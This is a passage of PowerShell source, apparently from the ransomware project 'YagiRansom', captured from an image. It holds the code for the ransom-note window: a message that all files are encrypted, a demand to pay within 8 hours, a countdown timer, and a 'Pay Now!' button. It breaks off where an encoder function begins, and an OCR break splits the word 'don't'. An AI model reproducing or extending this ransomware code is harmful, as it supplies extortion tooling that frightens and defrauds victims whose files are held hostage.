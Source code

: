 ```ps1 h!
$form.Text = "YagiRansom"
$formIcon = New-Object system.drawing.icon ("$env:temp\YagiRansom.ico") 
$form.Icon = $formicon  
$img = [System.Drawing.Image]::Fromfile("$env:temp\YagiRansom.jpg")
$pictureBox = new-object Windows.Forms.PictureBox
$pictureBox.Width = 920
$pictureBox.Height = 370
$pictureBox.SizeMode = "StretchImage"
$pictureBox.Image = $img
$form.controls.add($pictureBox)
$label = New-Object System.Windows.Forms.Label
$label.ForeColor = "Cyan"
$label.Text = "All your files have been encrypted by YagiRansom!" 
$label.AutoSize = $true 
$label.Location = New-Object System.Drawing.Size(50,400) 
$font = New-Object System.Drawing.Font("Consolas",15,[System.Drawing.FontStyle]::Bold) 
$form.Font = $Font 
$form.Controls.Add($label) 
$label1 = New-Object System.Windows.Forms.Label
$label1.ForeColor = "White"
$label1.Text = "But don
t worry, you can still recover them with the recovery key if you pay the ransom in the next 8 hours." 
$label1.AutoSize = $true 
$label1.Location = New-Object System.Drawing.Size(50,450)
$font1 = New-Object System.Drawing.Font("Consolas",15,[System.Drawing.FontStyle]::Bold) 
$form.Font = $Font1
$form.Controls.Add($label1) 
$okbutton = New-Object System.Windows.Forms.Button;
$okButton.Location = New-Object System.Drawing.Point(750,500)
$okButton.Size = New-Object System.Drawing.Size(110,35)
$okbutton.ForeColor = "Black"
$okbutton.BackColor = "White"
$okbutton.FlatStyle = [System.Windows.Forms.FlatStyle]::Flat
$okButton.Text = 'Pay Now!'
$okbutton.Visible = $false
$okbutton.Enabled = $true
$okButton.DialogResult = [System.Windows.Forms.DialogResult]::OK
$okButton.add_Click({ 
[System.Windows.Forms.MessageBox]::Show($this.ActiveForm, 'Your payment order has been successfully registered!', 'YagiRansom Payment Processing System',
[Windows.Forms.MessageBoxButtons]::"OK", [Windows.Forms.MessageBoxIcon]::"Warning")})
$form.AcceptButton = $okButton
$form.Controls.Add($okButton)
$form.Activate() 2>&1> $null
$form.Focus() 2>&1> $null
$btn=New-Object System.Windows.Forms.Label
$btn.Location = New-Object System.Drawing.Point(50,500)
$btn.Width = 500
$form.Controls.Add($btn)
$btn.ForeColor = "Red"
$startTime = [DateTime]::Now
$count = 10.6
$7VEqr=New-Object System.Windows.Forms.Timer
$7VEqr.add_Tick({$elapsedSeconds = ([DateTime]::Now - $startTime).TotalSeconds ; $remainingSeconds = $count - $elapsedSeconds
if ($remainingSeconds -like "-0.1*"){ $7VEqr.Stop() ; $okbutton.Visible = $true ; $btn.Text = "0 Seconds remaining.." }
$btn.Text = [String]::Format("{0} Seconds remaining..", [math]::round($remainingSeconds))})
$7VEqr.Start()
$btntest = $form.ShowDialog()
if ($btntest -like "OK"){ $Global:PayNow = "True" }}
function R64Encoder { 
```